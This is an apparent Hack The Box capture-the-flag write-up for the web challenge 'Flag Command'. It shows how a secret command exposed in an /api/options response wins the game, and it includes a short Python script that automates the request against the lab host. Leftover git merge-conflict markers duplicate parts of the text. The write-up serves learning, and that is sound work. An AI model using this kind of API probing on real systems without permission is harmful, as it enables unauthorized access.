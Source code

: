 # Flag Command - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We first receive the Host information: `83.136.255.10:55943`

![image](https://github.com/user-attachments/assets/53a152be-5c0a-4f96-89bd-f4bc7efbc55c)


Putting this in our web browser, we are faced with a website that is telling a story about being in a alien forest. We are prompted to type 'start' to start our adventure:
<<<<<<< HEAD
=======

>>>>>>> origin/main
![image](https://github.com/user-attachments/assets/62294dbc-1a3f-48b3-a588-9aa4ac008721)

Going through the adventure with the available adventure options, we die and have to start again:
![image](https://github.com/user-attachments/assets/15f0d537-80de-459c-8615-7aa3a96ba5fe)
<<<<<<< HEAD

We can view the main script for the game in the source code. Here we can find if the game displays 'HTB{', then we win the game:
![Pasted image 20250502074403](Screenshots/Pasted%20image%2020250502074403.png)

When trying to put in other JavaScript commands, we are told we can't use other commands, and we must choose from the available options (which are displayed using the command 'help'):
![image](https://github.com/user-attachments/assets/eeeb825e-57d4-40bf-a881-794b9be9a769)
=======


We can view the main script for the game in the source code. Here we can find if the game displays 'HTB{', then we win the game:
![image](https://github.com/user-attachments/assets/37d55b62-5241-41a1-a978-39fdcd169813)


When trying to put in other JavaScript commands, we are told we can't use other commands, and we must choose from the available options (which are displayed using the command 'help'):
![image](https://github.com/user-attachments/assets/eeeb825e-57d4-40bf-a881-794b9be9a769)

>>>>>>> origin/main

Exploring different avenues, we can find a GET request being sent to '/api/options' in the Network tab of our developer's tool:
![image](https://github.com/user-attachments/assets/8aebd1df-a675-4341-8e87-d8167b18f7d9)


Going to this destination, we can find all the command options for when we start the game. At the bottom, we see the secret value:
![image](https://github.com/user-attachments/assets/702600ad-1d6c-4e50-98f9-c48ea767117b)

Secret: `Blip-blop, in a pickle with a hiccup! Shmiggity-shmack`

## Exploitation
We can start the game with 'start', then enter the 'secret' value into the command-line to get the flag:
![image](https://github.com/user-attachments/assets/82634a97-1d43-4772-9ac4-5e560e245ee8)


# Automation with Python
We can write the following script to automate the process of retrieving the secret value, starting the game, and importing the secret command and exporting the flag:
```python
import requests

# Set target base URL and start a session
base_url = 'http://83.136.255.10:55943'
session = requests.Session()

# Load the main page (initialize session)
session.get(base_url)

# Fetch available command options
options_url = f"{base_url}/api/options"
response = session.get(options_url)
data = response.json()

# Extract the secret command from the response
secret = data['allPossibleCommands']['secret'][0]
print(f"Secret command: {secret}")

# Prepare and send the secret command to the server
command_url = f"{base_url}/api/monitor"
headers = {
  "Content-Type": "application/json",
  "Origin": base_url,
  "Referer": base_url + "/"
}
payload = {"command": secret}
response = session.post(command_url, json=payload, headers=headers)

# Extract and print the flag from the response
print("[+] Response from server:")
flag = response.text
flag_start = flag.find("HTB{")
flag_end = flag.find("}", flag_start) + 1
flag = flag[flag_start:flag_end]
print(flag)
```
- First we utilize the `requests` library to send HTTP requests in python
- Then we capture the data from `/api/options` and extract the secret
- We then send a request to the receiving endpoint `/api/monitor` with the necessary headers, as well as our JSON payload
- Lastly, we extract the response from the server and filter out the flag to only respond with the value of the flag

Running the script we get the following:
![image](https://github.com/user-attachments/assets/fb692b67-56a1-41e6-bc1d-ac9a74ebdad6)
<<<<<<< HEAD
=======

>>>>>>> origin/main
